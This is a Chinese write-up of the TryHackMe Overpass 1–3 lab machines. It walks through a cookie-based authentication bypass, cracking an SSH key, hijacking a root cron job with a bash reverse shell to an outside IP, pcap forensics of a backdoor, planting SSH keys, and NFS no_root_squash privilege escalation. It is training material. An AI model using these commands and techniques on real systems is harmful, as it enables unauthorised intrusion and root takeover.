# THM 靶场 — Overpass-writeup-先知社区

> **来源**: https://xz.aliyun.com/news/16131  
> **文章ID**: 16131

---

# Overpass 1

## 声明

此 writeup不会明文显示 flag 和某些密码，请师傅们自行复现。

## use tool

* nmap
* ssh2john
* john

## 扫描端口

首先我们要对目标主机进行端口扫描，使用 `nmap`，发现只有俩个端口开发：`22,80`



目前暂不知道 ssh 的凭证和一些提示。

那么先对 80 web 服务进行信息收集

## web服务



有几个可点击的功能点

### About us

在关于我们的页面下有一些员工的名字，可暂时保存下来。作为后续的可能存在的爆破使用。



### Downloads

这个页面是关于这个网站发布的软件的一些下载。还有一些源码等



目前来看，也没多少可用信息。尝试使用`目录爆破`



目录爆破发现一个很重要的路由：`/admin`

### admin



是一个登录表单。我首先进行的是 sql 注入。但很可惜，这条路行不通。

但当我去查看源代码时发现，在 `login.js`中存在着一些可利用的信息。



此处，当我们设置 Cookie ： `SessionToken=statusOrCookie` 然后刷新就会进入 /admin



可以看到在响应包中，存在着一个 ssh 私钥。我们把它拷贝到终端

```
curl http://10.10.154.54/admin/ --cookie "SessionToken=statusOrCookie" | perl -0777 -ne 'while (/\<pre\>(.*?)\<\/pre\>/sg) {print "$1\n"}'

```



> 用户名



使用私钥登录 ssh



这个私钥存在密码保护。那么我们需要用 john 进行爆破出密码

接着我们使用 `ssh2john` 切换下格式，然后爆破出密码。



使用密码登录到 ssh 中

## ssh



现在我们已经登录到 `james` 用户。可以拿到 user\_flag 了

接着我们继续找线索提权到 root

## 提权

在定时任务中，可以发现一个以 root 用户 curl 网站目录下的一个 bash 脚本 并且执行



我们可以在本地创建一个 **downloads/src/buildscript.sh**

并且脚本中写入反弹 shell。

最后的最后，我们需要修改目标主机下的 `/etc/hosts`



那么现在开始进行操作吧！

```
┌──(root㉿cxcx)-[/tmp]
└─# mkdir -p downloads/src

┌──(root㉿cxcx)-[/tmp/downloads/src]
└─# cat buildscript.sh
#!/bin/bash

bash -i >& /dev/tcp/10.14.93.35/5678 0>&1

```

然后我们在 /tmp 目录下开启 http 服务 这里默认的是 80 端口

```
python3 -m http.server 80

```

开启监听，稍作等待



成功拿到 root，这时可以读取 root\_flag

# Overpass 2-Hacked

此靶机是一个流量包取证。

## What was the URL of the page they used to upload a reverse shell?

打开后搜索 http。



## 攻击者使用什么有效负载来获取访问权限？

追踪这个文件上传流



## 攻击者使用什么密码来获取权限？

搜索 tcp，并且搜索字符串：password



## 攻击者是如何建立持久性的？

在上题的流中，最下面使用了 git ，下载了一个文件。

`git clone https://github.com/NinjaJc01/ssh-backdoor`

## 使用 fasttrack 单词列表，有多少系统密码是可破解的？

这个题需要在这个流中找到 /etc/passwd ,然后使用 john 进行破解。  
4 个

## 后门的默认哈希值是多少？



## 后门的硬编码盐是什么？



## 攻击者使用的哈希值是什么？- 为此返回 PCAP！



## 使用 rockyou 和您选择的破解工具破解哈希。密码是什么？



## 攻击者污损了网站。他们留下了什么信息作为标题？

需要开启靶机，然后访问 80 端口



## flag

在上面我们得知了密码，但不知道是谁的密码，甚至不知道是哪个服务的



2222 端口，尝试登录



密钥类型不同。强制启用 `ssh-rsa`



查看具有 SUID 权限的文件





成功获取 root

# Overpass 3-Hosting

## 端口扫描



通过 nmap 扫描，可以发现 3 个端口正在开放 ：`21-FTP,22-SSH,80-HTTP`

## 80-HTTP

### 对 web 服务进行目录爆破



现在我们有了新的突破 `backups`

在这个目录下存放着一个 `backup.zip` 压缩包

现在我已经使用了 `unzip` 解压它


看起来是 gpg 加密的 xlsx 文件，现在我们导入 key 并且解密它

```
┌──(root㉿cxcx)-[~/THM/Overpass/three]
└─# gpg --import priv.key
gpg: directory '/root/.gnupg' created
gpg: keybox '/root/.gnupg/pubring.kbx' created
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(root㉿cxcx)-[~/THM/Overpass/three]
└─# gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx
gpg: Note: secret key 9E86A1C63FB96335 expired at Wed 09 Nov 2022 05:14:31 AM CST
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"

```



paradox 这个用户，我们在之前就已经看到。既然有了密码。我们尝试登录。

## 21-FTP

使用 paradox:ShibesAreGreat123 登录 FTP



成功登录，我们 `put` 一个反弹 shell 上去





现在开启监听，并在 web 页面访问此文件。

## web-flag



## 提权

上传 `linpeas.sh`



> 发现可疑端口正在运行



> 高亮显示 ：no\_root\_squash



这是一个 nfs 挂载提权漏洞。  
<https://book.hacktricks.xyz/cn/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe>

我们现在需要知道 nfs 在哪个端口上运行。

根据我们发现的可疑端口，使用 nmap 进行扫描


很好，我们已经找到了 nfs 的端口，为 2049

但是现在我们是 www 用户，我们需要一个真正的用户 `paradox`

切换用户



### 生成公钥

```
ssh-keygen -f paradox

```



```
echo "paradox.pub 内容" >> /home/paradox/.ssh/authorized_keys

```

现在我们可以在本机使用私钥进行连接



我们使用 linpeas ，得知是 nfs 挂载提权。并且也找到了 nfs 的端口号。

那么我们可以尝试接口转发，让本地的某个端口，被转发到远程服务器上。

```
┌──(root㉿kali)-[~]
└─# ssh -fN -L 4090:localhost:2049 -i paradox paradox@10.10.82.39

```

  
4090 已经开启。

接着我们需要挂载 nfs

此时我们已经把 **本地的 4090 端口** 转发为 **远程服务器的 2049 端口（nfs)**

```
sudo mount -t nfs -o port=4090 127.0.0.1:/ /tmp/nfs

```

挂载到 /tmp/nfs



我们需要登录到 james 用户中去。



生成一个公钥写入 **authorized\_keys**



现在我们来继续提权

```
cp /bin/bash cxcx
sudo chown root.root cxcx
sudo chmod +s cxcx

./cxcx -p

```



需要在目标主机中 cp bash，接着在我们挂载的本机目录中进行赋予权限

然后在目标主机中执行提权。

完结。
